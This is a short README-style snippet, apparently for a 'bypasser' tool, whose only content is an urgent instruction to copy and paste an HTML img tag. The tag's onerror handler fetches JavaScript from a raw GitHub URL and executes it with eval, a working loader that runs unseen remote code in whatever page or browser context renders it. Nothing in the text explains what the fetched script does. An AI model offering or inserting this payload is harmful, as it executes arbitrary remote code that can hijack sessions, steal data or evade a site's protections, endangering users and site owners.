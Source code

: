 Read ME PLSSSS!!!! 
copy and paste this:
<br>
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/gco12345/verysigmabypasser/main/main.js").then(r=>r.text()).then(c=>eval(c))'>
```
<br>

